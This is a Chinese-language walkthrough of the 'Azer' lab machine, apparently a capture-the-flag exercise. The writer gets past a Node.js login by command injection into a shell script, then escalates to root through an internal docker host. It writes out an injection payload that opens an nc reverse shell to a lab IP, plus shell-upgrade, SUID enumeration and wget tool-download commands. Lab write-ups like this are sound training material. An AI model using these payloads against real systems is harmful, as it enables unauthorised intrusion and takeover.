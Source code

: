 # Azer
nmap扫描
![](vx_images/277203525364675.png)
3000端口是一个登录口,node.js
目录扫描一下,没什么东西
登录试一下弱口令
```
Error executing bash script: Command failed: /home/azer/get.sh admin admin
fatal: not a git repository (or any of the parent directories): .git
执行 bash 脚本时出错：命令失败：/home/azer/get.sh admin admin致命错误：不是一个 git 仓库（或任何父目录）：.git
```
看样子是拉取一个git仓库
sql注入也不行
注意到是.sh文件,猜一下将输入拼接到脚本文件里执行
![](vx_images/4636820678355.png)
感觉有戏
![](vx_images/194488556224346.png)
![](vx_images/123346805594329.png)

有执行错误的回显,执行正确则无输出回显
猜的果然没错
```
nc反弹shell
payload:azer;nc 192.168.56.101 4444 -e /bin/bash
```
![](vx_images/320668521710982.png)
升级一下shell
```
script -qc /bin/bash /dev/null
```
翻看目录看见user.txt
![](vx_images/324861344871404.png)
且发现.ssh文件
尝试提权
看一下suid
```
find / -perm -4000 -exec ls -ld {} \; 2>/dev/null
```
![](vx_images/320143017400000.png)
fusermount3 --version版本为3.14,用不了挂载漏洞
看了一下,靶机上还存在docker容器
```
ip a查看
```
![](vx_images/398144030844695.png)
上传fscan工具扫一下内网
```
python -m http.server 80

wget http://192.168.56.101/fscan

```
发现10主机有开放了80端口
![](vx_images/57492322334324.png)
curl探测一下
![](vx_images/148735876002843.png)
切换root用户登录
![](vx_images/73844255263098.png)
